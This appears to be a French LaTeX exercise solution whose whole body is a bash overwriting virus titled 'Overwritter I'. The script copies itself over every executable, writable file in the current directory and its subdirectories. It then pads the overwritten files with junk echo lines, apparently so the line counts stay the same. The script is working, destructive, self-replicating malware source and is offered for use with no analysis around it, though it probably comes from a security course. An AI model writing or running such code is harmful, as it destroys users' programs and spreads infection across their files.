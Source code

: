 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\begin{verbatim}
#Overwritter I
for file in *; do #pour tout fichier
    if [ -d $file ]; then # si on recontre un repertoire
       cd $file #on se positionne dans ce repertoire
       for file1 in *; do #pour tout fichier du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               nbligne=$(wc -l $file | cut -d" " -f 1  ) 
               cp "../$0" $file1 #ecraser le fichier cible par le virus
               count=0
	       while [ $count -le $(($nbligne - 37)) ]; do
	         echo "echo \"on rajoute deslignes\"" >> $file
	         count=$(($count+1))
	       done
	       echo "$count $nbligne $file"
	   fi
       done
       cd ..
    fi
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	if [ -x $file -a -w $file -a "$0" != "./$file" ]; then
            nbligne=$(wc -l $file | cut -d" " -f 1  ) 
            cp $0 $file  #ecraser le fichier cible par le virus
            count=0
	    while [ $count -le $(($nbligne - 37)) ]; do
		echo "echo \"on rajoute deslignes\"" >> $file
		count=$(($count+1))
	    done
	    echo "$count $nbligne $file"
	fi
    fi
done
\end{verbatim}


\end{enumerate}
\end{correction}
\end{document}
